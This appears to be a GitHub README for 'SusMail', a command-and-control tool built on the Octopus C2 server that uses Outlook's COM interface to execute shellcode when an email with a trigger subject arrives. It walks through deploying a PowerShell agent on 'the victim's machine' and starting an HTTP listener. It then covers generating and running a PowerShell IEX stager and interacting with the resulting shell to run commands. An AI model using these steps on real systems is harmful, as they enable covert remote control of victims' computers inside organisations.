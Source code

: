 C2 over Microsofts' Outlook based on Octopus as backend.

# What is Octopus ? ![](https://img.shields.io/badge/python-3-yellow)
  Octopus is an open source, pre-operation C2 server based on python which can control an Octopus powershell agent through HTTP/S.

'SusMail' leverages the Outlook Application Interface (COM Interface) to execute shellcode on a system based on a specific trigger subject line. By utilizing the Microsoft.Office.Interop.Outlook namespace, developers can represent the entire Outlook Application. 



# About the PowerShell agent 
* This is gonna ran on the victim's machine(inside the internal organization):
* just run the script: ```./AllInOne.ps1```




# Requirements & Pre-requisites & installation

1. Machine that will hold the backend based on Octupus(python) - You can install all  Octopus' requirements via :

```pip install -r requirements.txt```

You have to change the next details before you start:
* change the $username and $password ```./agents/agent.ps1.oct ```
* erasing all the emails from the inbox
* permit email account communication with low security apps
if there any problem with it:
https://support.google.com/mail/answer/7126229?visit_id=637650667152983230-1024873670&rd=2#cantsignin&zippy=%2C%D7%9C%D7%90-%D7%94%D7%A6%D7%9C%D7%97%D7%AA%D7%99-%D7%9C%D7%94%D7%99%D7%9B%D7%A0%D7%A1-%D7%9C%D7%AA%D7%95%D7%9B%D7%A0%D7%AA-%D7%94%D7%90%D7%99%D7%9E%D7%99%D7%99%D7%9C-%D7%A9%D7%9C%D7%99


`./octopus.py`

You will by greeted with the following once you run it :

```
┌─[askar@hackbook]─[/opt/redteaming/Octopus]
└──╼ $python3 octopus.py



      ___           ___                       ___           ___         ___           ___
     /  /\         /  /\          ___        /  /\         /  /\       /__/\         /  /\
    /  /::\       /  /:/         /  /\      /  /::\       /  /::\      \  \:\       /  /:/_
   /  /:/\:\     /  /:/         /  /:/     /  /:/\:\     /  /:/\:\      \  \:\     /  /:/ /\
  /  /:/  \:\   /  /:/  ___    /  /:/     /  /:/  \:\   /  /:/~/:/  ___  \  \:\   /  /:/ /::\
 /__/:/ \__\:\ /__/:/  /  /\  /  /::\    /__/:/ \__\:\ /__/:/ /:/  /__/\  \__\:\ /__/:/ /:/\:\
 \  \:\ /  /:/ \  \:\ /  /:/ /__/:/\:\   \  \:\ /  /:/ \  \:\/:/   \  \:\ /  /:/ \  \:\/:/~/:/
  \  \:\  /:/   \  \:\  /:/  \__\/  \:\   \  \:\  /:/   \  \::/     \  \:\  /:/   \  \::/ /:/
   \  \:\/:/     \  \:\/:/        \  \:\   \  \:\/:/     \  \:\      \  \:\/:/     \__\/ /:/
    \  \::/       \  \::/          \__\/    \  \::/       \  \:\      \  \::/        /__/:/
     \__\/         \__\/                     \__\/         \__\/       \__\/         \__\/




 Octopus C2 | Control your shells


Octopus >>

```
# Usage

* > listen_http 0.0.0.0 8080 <your_domain> 10 comments1.php <listener_name>
* > generate_powershell <listener_name>


*Now copy the first IEX and run it from a machine that has access to your gmail account


> (after connection established): 
* > interact 1
* And you will able to run os PS commands




# Credits
based on Octopus Project, thanks for * [mhaskar](https://github.com/mhaskar/Octopus)


